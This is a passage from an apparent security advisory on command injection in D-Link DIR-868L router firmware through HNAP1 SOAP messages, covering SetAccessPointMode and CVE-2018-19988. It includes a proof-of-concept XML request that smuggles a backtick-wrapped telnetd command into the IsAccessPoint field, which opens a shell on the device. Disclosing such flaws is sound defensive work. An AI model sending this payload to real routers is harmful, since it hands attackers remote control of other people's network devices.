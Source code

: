 ![](SetAccessPointMode.php.png)

After the script file is executed, the command injection occurs.

A vulnerable `/HNAP1/SetAccessPointMode` XML message could have shell metacharacters in the `IsAccessPoint` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetAccessPointMode xmlns="http://purenetworks.com/HNAP1/">
<IsAccessPoint>`telnetd`</IsAccessPoint> </SetAccessPointMode>
</soap:Body> </soap:Envelope>
```

## CVE-2018-19988 - /HNAP1/SetClientInfoDemo

**Firmware version**:
DIR-868L_REVB - 2.05B02

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-868L

### The detail of vulnerability ###

In the `/HNAP1/SetClientInfoDemo` message, the `AudioMute` and `AudioEnable` elements are vulnerable, and the vulnerabilities affect D-Link DIR-868L Rev.B 2.05B02 device.

In the `SetClientInfoDemo.php` source code, the `AudioMute` and `AudioEnble` elements are saved in the `$ShellPath` script file without any regex checking.
